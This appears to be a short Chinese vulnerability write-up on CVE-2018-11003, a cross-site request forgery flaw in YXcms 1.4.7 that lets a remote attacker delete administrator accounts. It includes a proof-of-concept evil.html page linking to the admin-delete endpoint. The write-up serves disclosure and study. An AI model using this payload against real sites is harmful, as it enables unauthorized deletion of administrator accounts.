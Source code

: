 （CVE-2018-11003）YXcms 1.4.7 跨站请求伪造漏洞
==============================================

一、漏洞简介
------------

YXcms
1.4.7版本中的protected/apps/admin/controller/adminController.php文件存在跨站请求伪造漏洞。远程攻击者可借助index.php?r=admin/admin/admindel利用该漏洞删除管理员账户。

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

POC:

管理员点击链接

<http://192.168.232.133/evil.html>

evil.html

    <html> 
    <a href="http://127.0.0.1/yxcms1.4.7/index.php?r=admin/admin/admindel&id=1">test</a>
    </html>
